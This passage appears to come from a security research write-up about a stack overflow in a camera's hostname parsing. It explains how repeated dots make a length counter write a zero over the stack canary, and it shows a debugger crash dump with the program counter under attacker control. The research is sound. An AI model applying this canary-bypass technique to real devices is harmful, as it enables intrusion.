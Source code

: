 This acts as a counter that keeps track of the number of characters before either the null terminator or a '.'. Lets consider only '.' characters at the moment:
- The counter is initialised to zero before the while loop
- Within the loop:
  - If the current hostname character is not a '.', the counter is incremented
  - If it is a '.', the break is hit
- Once the break is hit, this counter is stored in the stack buffer at the current offset from the start
- Wait, so if we provide multiple '.' characters in a row, the counter will be reset to zero after the first dot, and then the second dot will be encountered and a zero will be written

This means, we can control our input such that we can write the null terminator back into the location of the stack canary and continue overflowing the stack contents after it (including *pc*!)

![restored_canary.png](/assets/images/video_call_camera_p4/restored_canary.png)

And when we put the canary back in its rightful place, we get the following crash:

```
Thread 41 "NetIPManager" received signal SIGSEGV, Segmentation fault.
0x0a646464 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0xffffffff
$r1  : 0x0       
$r2  : 0x0       
$r3  : 0x0065b230  →  0x9c3e6919
$r4  : 0x62626241 ("Abbb"?)
$r5  : 0x62626262 ("bbbb"?)
$r6  : 0x62626262 ("bbbb"?)
$r7  : 0x6363630b ("\vccc"?)
$r8  : 0x63636363 ("cccc"?)
$r9  : 0x63636363 ("cccc"?)
$r10 : 0x6464640a ("\nddd"?)
$r11 : 0x64646464 ("dddd"?)
$r12 : 0xb51a6690  →  0x00000000
$sp  : 0xb51a6a30  →  "eeeeeeeeee"
$lr  : 0x0041ddf4  →   mvn r7,  #0
$pc  : 0xa646464  ("ddd\n"?)
$cpsr: [negative ZERO carry overflow interrupt fast thumb]
```
